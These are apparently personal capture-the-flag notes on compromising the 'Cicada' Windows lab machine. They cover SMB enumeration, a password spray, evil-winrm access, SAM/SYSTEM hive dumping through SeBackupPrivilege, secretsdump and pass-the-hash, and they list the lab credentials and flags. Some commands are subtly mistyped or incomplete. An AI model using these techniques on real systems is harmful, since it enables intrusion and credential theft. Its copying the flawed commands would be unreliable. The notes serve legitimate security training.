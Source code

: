 # Given

Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise.

## IP: 10.10.11.35

# Steps

## Initial Enumeration

- nmap -sCV -p- 10.10.11.35 -oN enum/nmap.out
- Enumerate SMB shares
    - Null session authentication is available, and HR share is available for listing and reading.
    - Downloaded text file that has a default password
- Time to test for users who might happen to still use this default password (Password Spray).
    - First, look for users of the SMB service. Enumerate smb for user SID's using the guest/anon logon with netexec. (Because we can’t use the guest account to directly list users)
        - `netexec smb 10.10.11.35 -u username -p '' --rid-brute`
    - The list of users and groups generated needs to be cleaned up. Filter for the users with `SidTypeUser` only.
    - Password spray the SMB service for both default usernames and people's names that are associated with this default password.
        - `netexec smb 10.10.11.35 -u ./payloads/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
    - There will be one username `michael.wrightson` that uses the same default password.
- This only gets me access to the SMB service as Michael.Wrightson.
    - Test for shares this user has access to with netexec
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
        - This user has read access to the HR share, but nothing else.
    - Using this set of credentials, enumerate users of the share
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' —users`
        - This lists out the users of the SMB service, as well as bad password count, and descriptions.
        - The user account `david.orelious` has saved his password in the description `aRt$Lp#7t*VQ!3`
- Listing the shares available to this user shows he can read and write to the DEV share.
- Looking through this share gets us a powershell file called `Backup_Script.ps1`
    - This file is some code to encode a password for a user named `emily.oscars`
    - There is a plaintext password there (`Q!3@Lp#M6b*7t*Vt`)
- Enumerating shares for this user shows she has access to the `C$` share as well. This is where we can obtain an initial foothold

## Initial Foothold

- Use `evil-winrm` to make a connection to the system
    - `evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`
    - The user flag is on the desktop

## Lateral Movement to Administrator Account

- The first thing to do when the initial foothold is established is to check for the rights and privilegs of this particular user account.
    - `whoami /all`
- This shows that the user has a privilege enabled called `SeBackupPrivilege` that allows the user to make backups of the system.
- This privilege can be used to backup the SAM and SYSTEM registries and crack them later.
    - Backup registries
        - `reg HKLM\\SAM sam`
        - `reg HKLM\\SYSTEM system`
    - Download them
        - `download sam sam`
- We’ll use the secretsdump module of Impacket to get the hashes from these 2 files.
    - `impacket-secretsdump -sam ./sam -system ./system LOCAL`
    - This gets us the `NTLM` hashes for the users of the system. A Pass The hash attack is viable now.
- Open another win-rm session where we login as the administrator.
    - `win-rm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'`
    - We’ve successfully got into the machine as the admin.

# Findings

- Open TCP ports:
    - DNS
        - 53 Simple DNS
    - LDAP
        - 389, 636, 3268, 3269
    - HTTP
        - 5985
    - Kerberos
        - 88
    - MSRPC
        - 135, 593, 62664
    - Netbios
        - 139
    - SMB
        - 445, 139
    - UNKNOWN
        - 464
- Found password reset notice in SMB/HR
    - `Cicada$M6Corpb*@Lp#nZp!8`
- netexec password spray got user who's still using the default password
    - `michael.wrightson`
- Enumeration using the above creds gives a user with access to the DEV share
    - `david.orelious`
- DEV share has a file with creds for another user
    - `Backup_Scripts.ps1`
    - This has creds for user `emily.oscars`
- Emily Oscars has the `SeBackupPrivilege` flag enabled for their account.
    - We can backup her SAM and SYSTEM reg files for cracking later.

# Creds

Credentials found

`michael.wrightson`: `Cicada$M6Corpb*@Lp#nZp!8`

`david.orelious`:`aRt$Lp#7t*VQ!3`

`emily.oscars` : `Q!3@Lp#M6b*7t*Vt`

`Administartor` : `2b87e7c93a3e8a0ea4a581937016f341`

# Flags

- User: 51d5a869664f4522cc2d4ffcc9d939da
- Root: 00a9d8d15217db7909f52fc28127575b

# Proof

![](../../08_Assets/Images/cicada_proof.png)
